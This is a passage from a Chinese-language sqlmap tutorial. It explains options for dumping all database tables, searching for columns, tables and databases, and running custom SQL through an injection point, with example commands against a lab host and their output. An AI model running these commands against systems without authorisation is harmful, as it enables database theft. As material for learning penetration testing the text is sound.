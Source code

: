 3:–last

4:只在盲注的时候使用，因为其他方式可以准确的获取注入内容，不需要一个字符一个字符的猜解。

**获取所有数据库表的内容**

参数：`–dump-all,–exclude-sysdbs`

使用`–dump-all`参数获取所有数据库表的内容，可同时加上`–exclude-sysdbs`只获取用户数据库的表，

需要注意在`Microsoft SQL`
`Server`中`master`数据库没有考虑成为一个系统数据库，因为有的管理员会把他当初用户数据库一样来使用它。

**搜索字段，表，数据库**

参数：`–search,-C,-T,-D`

`–search`可以用来寻找特定的数据库名，所有数据库中的特定表名，所有数据库表中的特定字段。

可以在一下三种情况下使用：

```
-C后跟着用逗号分割的列名，将会在所有数据库表中搜索指定的列名。

-T后跟着用逗号分割的表名，将会在所有数据库中搜索指定的表名

-D后跟着用逗号分割的库名，将会在所有数据库中搜索指定的库名。
```

**运行自定义的SQL语句**

参数：`–sql-query,–sql-shell`

`sqlmap`会自动检测确定使用哪种SQL注入技术，如何插入检索语句。

如果是`SELECT`查询语句，`sqlap`将会输出结果。如果是通过SQL注入执行其他语句，需要测试是否支持多语句执行SQL语句。

列举一个`Mircrosoft SQL Server 2000`的例子：

```
$ python sqlmap.py -u "http://**********/sqlmap/mssql/get_int.php?id=1"
--sql-query "SELECT 'foo'" -v 1
[...]
[hh:mm:14] [INFO] fetching SQL SELECT query output: 'SELECT 'foo''
[hh:mm:14] [INFO] retrieved: foo
SELECT 'foo': 'foo'
\$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1"
--sql-query "SELECT 'foo', 'bar'" -v 2
[...]
[hh:mm:50] [INFO] fetching SQL SELECT query output: 'SELECT 'foo', 'bar''
[hh:mm:50] [INFO] the SQL query provided has more than a field. sqlmap will now
unpack it into
distinct queries to be able to retrieve the output even if we are going blind
[hh:mm:50] [DEBUG] query: SELECT ISNULL(CAST((CHAR(102)+CHAR(111)+CHAR(111)) AS
VARCHAR(8000)),
(CHAR(32)))
[hh:mm:50] [INFO] retrieved: foo
[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds
[hh:mm:50] [DEBUG] query: SELECT ISNULL(CAST((CHAR(98)+CHAR(97)+CHAR(114)) AS
VARCHAR(8000)),
(CHAR(32)))
[hh:mm:50] [INFO] retrieved: bar
[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds
SELECT 'foo', 'bar': 'foo, bar'
```
